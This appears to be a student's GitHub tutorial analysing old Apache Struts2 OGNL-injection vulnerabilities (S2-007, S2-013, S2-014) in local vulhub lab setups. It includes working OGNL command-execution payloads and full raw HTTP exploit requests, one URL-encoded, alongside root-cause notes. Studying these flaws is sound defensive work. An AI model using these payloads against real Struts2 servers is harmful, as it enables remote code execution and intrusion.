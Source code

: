 #struts2 security practice

by Haoling@BUAA

### motivation
This article aims to analyze the root causes of the vulnerability of struts2 in the history, which includes S2-001....., you could download most of the docker's environments in vulhub github.  

However, the content in the vulhub mainly focuses on the vulnerable environment and the corresponding payload to play with the environments, without the insight of what leads to the vulnerability, and the analysis of exploiting payload. 

With the tutorial in this article, we are capable to establish the environment by ourself, and debug with the vulnerability to find out what happens inside the deployed java packages.


### prerequisites 

Intellij IDEA (ultimate edition)
JDK/JRE
tomcat server
docker


### analysis of S2-001




### analysis of S3-007

the environment used for the analysis:
https://github.com/vulhub/vulhub/raw/master/struts2/s2-007/S2-007.war

attacking payload:

```ongl
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

raw http request example
```
POST http://127.0.0.1:8081/S2_007_war/user.action HTTP/1.1
Host: ss:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6,lb;q=0.5
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 305

name=a&email=b&age='+%2b+(%23_memberAccess["allowStaticMethodAccess"]%3dtrue,%23foo%3dnew+java.lang.Boolean("false")+,%23context["xwork.MethodAccessor.denyMethodExecution"]%3d%23foo,%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('ls -la').getInputStream()))+%2b+'
```

the description of this vulnerability:
User input is evaluated as an OGNL expression when there's conversion error.

**small tips**
To debug with the packed library of struts2, you are supposed to right click on the package, and choose "Add as library".


concatenation of the payload:
```java
this.getOverrideExpr(invocation, value)
```
invoke function to execute the OGNL expression
```java
return invocation.invoke();
```

### analysis of S3-013 & S4-014
attacking payload for S3-013:
```ognl
${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls -la').getInputStream())}
``` 
attacking payload for S4-014:
```ognl
${(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app"))}
```


raw http payload:
```
GET http://127.0.0.1:8081/S2_013_war/link.action?a=%24%7b%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%5b%22%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%22%5d%3d%74%72%75%65%2c%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%6c%73%20%2d%6c%61%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%7d HTTP/1.1
Host: ss:8081
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6,lb;q=0.5
Connection: close
```
the description of this vulnerability:
includeParams attribute of the URL and Anchor tag, afterward use as request parameter of an url or a tag, will cause a further evaluation.
when url/A tag tries to resolve every parameter present in the original request, this will evaluate the input from any request parameters as an OGNL expression, the Struts and OGNL library could be easily bypassed.

**small tips**
before you try to inject the command into the OGNL, you need to enable static method access and arbitrary method execution first.


vulnerable function call stack:

buildParameterSubstring
translateAndEncode
translateVariable:287, UrlHelper(org.apache.struts2.views.util)
TextParseUtil.translateVariables



### how to excavate the possible vulnerabilities in  struts2?
